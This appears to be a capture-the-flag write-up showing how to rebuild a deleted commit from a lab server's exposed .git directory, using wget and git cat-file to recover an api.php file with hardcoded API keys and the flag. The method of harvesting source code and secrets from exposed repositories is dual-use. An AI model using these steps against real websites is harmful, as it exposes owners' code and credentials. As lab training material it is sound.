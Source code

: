 ### Reflecting remote files and folders using local Git repository
https://github.com/bl4de/research/tree/master/hidden_directories_leaks#git

### Create dummy Git folder

```
$ git init
```


### Download the git log from the site.
`$ wget http://10.10.X.X/.git/logs/HEAD` 
`$ cat HEAD`
![[head.png]]

#### 79c9539b6566b06d6dec2755fdf58f5f9ec8822f Object
79 = Directory
c9539b6566b06d6dec2755fdf58f5f9ec8822f = Object

The developer removed the sensitive data on the object **b2f776a52fe81a731c6c0fa896e7f9548aafceab**. 
`79c9539b6566b06d6dec2755fdf58f5f9ec8822f b2f776a52fe81a731c6c0fa896e7f9548aafceab Context Information Security <recruitment@contextis.com> 1568122860 +0100 commit: removed sensitive data`


You can find the sensitive data in the object **79c9539b6566b06d6dec2755fdf58f5f9ec8822f**.
`93bab0a450caaa8c4d2632703636eccc69062bb4 79c9539b6566b06d6dec2755fdf58f5f9ec8822f Context Information Security <recruitment@contextis.com> 1568122828 +0100 commit: added basic prototype of api gateway`


### Extract the object from the target machine
- Create a directory called 79 into the **objects** dir.
- Download the "c9539b6566b06d6dec2755fdf58f5f9ec8822f" file to 79 dir.

```
$ mkdir 79
$ cd 79
$ wget http://10.10.X.X/.git/objects/79/c9539b6566b06d6dec2755fdf58f5f9ec8822f
```
### Read the content of the tree object 1
```
$ cd 79
$ git cat-file -p 79c9539b6566b06d6dec2755fdf58f5f9ec8822f
```
> tree **51d63292792fb7f97728cd3dcaac3ef364f374ba**
> parent 93bab0a450caaa8c4d2632703636eccc69062bb4
> author Context Information Security <recruitment@contextis.com> 1568122828 +0100
> committer Context Information Security <recruitment@contextis.com> 1568122828 +0100

You got a tree **object 51d63292792fb7f97728cd3dcaac3ef364f374ba**
- Create a directory called 51 into the **objects** dir.
- Download the "51d63292792fb7f97728cd3dcaac3ef364f374ba" file to 51 dir.
```
$ mkdir 51
$ cd 51
$ wget http://10.10.X.X/.git/objects/51/d63292792fb7f97728cd3dcaac3ef364f374ba
```

### Read the content of the tree object 2
```
$ cd 51
$ git cat-file -p 51d63292792fb7f97728cd3dcaac3ef364f374ba
```

> 100644 blob 2229eb414d7945688b90d7cd0a786fd888bcc6a4    api.php
> 100644 blob 9eb9f94f73113d785e65c7e3ec0cba54e0b7cf43    functions.php
> 100644 blob 2a116a56a6e31ef1836796936dbc05af1f986a26    home.php
> 100755 blob 470cac65fcd0f8556f13997957a331628482aa96    index.html
> 100644 blob 4f4ced90fcad774ca4f9f966dbb227ebe7f77a83    index.php
> 100644 blob 6480abf34a54d3055b437766be872a13bcebdf7d    info.php

The sensitive data is stored inside api.php or object **2229eb414d7945688b90d7cd0a786fd888bcc6a4**.

- Create a directory called 22 into the **objects** dir.
- Download the "29eb414d7945688b90d7cd0a786fd888bcc6a4" file to 22 dir.

```
$ mkdir 22
$ cd 22
$ wget http://10.10.X.X/.git/objects/2229eb414d7945688b90d7cd0a786fd888bcc6a4
```

### Read the content of the tree object 3
```
$ cd 22
$ git cat-file -p 2229eb414d7945688b90d7cd0a786fd888bcc6a4
```

```
<?php

require_once("functions.php");

if (!isset($_GET['apikey']) || ((substr($_GET['apikey'], 0, 20) !== "WEBLhvOJAH8d50Z4y5G5") && substr($_GET['apikey'], 0, 20) !== "ANDVOWLDLAS5Q8OQZ2tu" && substr($_GET['apikey'], 0, 20) !== "**GITtFi80llzs4TxqMWtCotiTZpf0HC**"))
{
    die("Invalid API key");
}

if (!isset($_GET['documentid']))
{
    die("Invalid document ID");
}

/*
if (!isset($_GET['newname']) || $_GET['newname'] == "")
{
    die("invalid document name");
}
*/

$conn = setup_db_connection();

//UpdateDocumentName($conn, $_GET['documentid'], $_GET['newname']);

$docDetails = GetDocumentDetails($conn, $_GET['documentid']);
if ($docDetails !== null)
{
    //print_r($docDetails);
    echo ("Document ID: ".$docDetails['documentid']."<br />");
    echo ("Document Name: ".$docDetails['documentname']."<br />");
    echo ("Document Location: ".$docDetails['location']."<br />");
}

?>                                                                                                                                                                           
```

The GIT flag is **GITtFi80llzs4TxqMWtCotiTZpf0HC**.

**Next step:** [[What is the flag in the var www directory of the web app host FLAG Webapp XXX]]
